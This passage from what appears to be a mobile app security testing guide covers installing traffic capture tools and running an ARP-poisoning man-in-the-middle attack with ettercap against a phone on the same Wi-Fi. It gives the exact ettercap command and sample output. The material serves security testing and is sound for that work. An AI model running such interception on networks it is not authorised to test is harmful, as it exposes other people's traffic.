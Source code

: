 **Network Analyzer Tool**

Install a tool that allows you to monitor and analyze the network traffic that will be redirected to your machine. The two most common network monitoring (or capturing) tools are:

- [Wireshark](https://www.wireshark.org "Wireshark") (CLI pendant: [tshark](https://www.wireshark.org/docs/man-pages/tshark.html "TShark")) and
- [tcpdump](http://www.tcpdump.org/tcpdump_man.html "tcpdump")

Wireshark offers a GUI and is more straightforward if you are not used to the command line. If you are looking for a command line tool you should either use TShark or tcpdump. All of these tools are available for all major Linux and Unix operating systems and should be part of their respective package installation mechanisms.

**Network Setup**

To be able to get a man-in-the-middle position your machine should be in the same wireless network as the mobile phone and the gateway it communicates to. Once this is done you need the following information:

- IP address of mobile phone
- IP address of gateway

#### Man-in-the-middle attack

Start ettercap with the following command and replace the first IP addresses with the network gateway in the wireless network and the second one with the one of your mobile device.

```bash
$ sudo ettercap -T -i en0 -M arp:remote /192.168.0.1// /192.168.0.105//
```

On the mobile phone start the browser and navigate to example.com, you should see output like the following:

```bash
ettercap 0.8.2 copyright 2001-2015 Ettercap Development Team

Listening on:
   en0 -> AC:BC:32:81:45:05
	  192.168.0.105/255.255.255.0
	  fe80::c2a:e80c:5108:f4d3/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  33 plugins
  42 protocol dissectors
  57 ports monitored
20388 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.0.1 F8:E9:03:C7:D5:10

 GROUP 2 : 192.168.0.102 20:82:C0:DE:8F:09
Starting Unified sniffing...

Text only Interface activated...
Hit 'h' for inline help

```
